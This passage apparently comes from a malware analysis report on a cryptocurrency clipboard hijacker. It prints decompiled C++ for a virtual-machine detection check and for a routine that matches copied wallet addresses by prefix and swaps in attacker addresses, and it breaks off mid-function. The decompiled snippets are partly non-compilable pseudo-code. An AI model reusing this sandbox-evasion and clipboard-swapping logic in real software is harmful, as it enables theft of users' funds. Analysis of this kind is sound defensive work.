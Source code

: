 ```cpp
    // Check for VM indicators
    const char* vmIndicators[] = {"qemu", "virtual", "vmware"};
    for (int i = 0; i < 4; i++) {
        if (vmIndicators[i] && strstr(outBuffer, vmIndicators[i])) {
            return true;
        }
    }

    return false;
}
```

**Anti-Analysis Implications**:
- The function is part of the malware's anti-analysis capabilities
- Used to detect if the malware is running in a virtual environment
- May alter behavior or terminate if VM presence is detected
- Targets common analysis platforms (QEMU, Virtual PC, VMware)

**Return Values**:
- Returns `true` (1) if VM indicators are found
- Returns `false` (0) if no VM indicators are detected or if drive access fails

### 2. VIBE::validate_and_store_crypto_address

**Purpose**: Validates cryptocurrency addresses and stores associated command keys in the clipboard. Part of the malware's command and control system.

**Location**: 0x401210

**Functionality**:
1. Validates input string length (must be between 26-108 characters)
2. Checks for specific prefix characters that identify different cryptocurrency types
3. Validates character set (no '0', 'O', or 'I' allowed)
4. Stores predefined command strings in clipboard based on prefix matching

**Prefix Mappings**:
```cpp
const char* prefix_mappings[] = {
    {'1', '3'} -> "1of6uEzx5qfStF1HrVXaZ1eE3X4ntnbs...",
    {'t', 'z'} -> "t1JQVnfzuqRWWAaYgvpXT4PzZzo2M3sc...",
    {'L'}      -> "LMimQj9RBdYbDTsV6k37TneN2Svi4e1P...",
    {'4'}      -> "4BrL51JCc9NGQ71kWhnYoDRffsDZy7m1...",
    {'D'}      -> "DHDUtYKHtEU9w9Scyan47L2YhKiVqhpX...",
    {'B'}      -> "B5f1bkbcmXzwZtL5ua5HYFHKxFz3HFcN...",
    {'E'}      -> "EcqcbRssS5tMx1WKAVeT2KUcFWaWueyw...",
    {'P'}      -> "PRXRECu2m4gXtYFYPDpVAmYr5qM4u6UE..."
};
```

**Implementation Details**:
```cpp
bool validate_and_store_crypto_address(const char* address) {
    // Length validation (26-108 chars)
    size_t len = strlen(address);
    if (len < 0x1A || len > 0x6C) {
        return false;
    }

    // Prefix validation
    char prefix = address[0];
    if (!is_valid_prefix(prefix)) {
        return false;
    }

    // Character validation
    for (size_t i = 0; i < len; i++) {
```